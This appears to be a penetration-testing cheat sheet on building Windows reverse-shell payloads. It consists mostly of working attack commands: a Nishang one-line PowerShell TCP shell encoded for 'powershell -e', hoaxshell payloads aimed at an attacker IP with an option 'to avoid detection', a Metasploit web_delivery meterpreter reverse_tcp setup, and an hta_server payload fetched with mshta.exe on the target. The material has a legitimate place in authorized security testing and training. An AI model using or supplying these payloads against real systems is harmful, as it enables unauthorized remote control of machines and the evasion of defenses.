 # Payload Development

## Windows Payload

### Nishang

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security and post exploitation during Penetration Tests

```bash
sudo apt install nishang
```

{% embed url="https://www.kali.org/tools/nishang/" %}

{% code title="Nishang" %}
```bash
cp /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 rev.ps1
# edit the script with HOST and PORT and delete all except the third line. 

# convert the payload in base64 with this command
cat rev.ps1| iconv -t UTF-16LE | base64 -w 0 

# use this payload
powershell -e "<PAYLOAD>"
```
{% endcode %}



### HoaxShell

hoaxshell is a Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.

{% embed url="https://github.com/t3l3machus/hoaxshell" %}

{% code title="Installation" %}
```bash
sudo apt install hoaxshell
```
{% endcode %}

{% code title="Create PS payload" %}
```bash
# simple used
hoaxshell -s <ATT_IP> -p <ATT_PORT>

# to avoid detection
hoaxshell -s <ATT_IP> -p <ATT_PORT> -i -H "Authorization"
```
{% endcode %}

### Metasploit

#### Web delivery

Http payload for PowerShell

```bash
service postgresql start && msfconsole
use exploit/multi/script/web_delivery

set payload windows/meterpreter/reverse_tcp

set LHOST <ATT_IP>
set LPORT <ATT_PORT>
set target 2 # set PS type
```



#### hta server

<pre class="language-bash"><code class="lang-bash"><strong>service postgresql start &#x26;&#x26; msfconsole
</strong><strong>use exploit/windows/misc/hta_server
</strong><strong>
</strong><strong>set LHOST &#x3C;IP>
</strong><strong>set LPORT &#x3C;PORT>
</strong></code></pre>

```powershell
# on target machine
mshta.exe <PAYLOAD_URL>
```





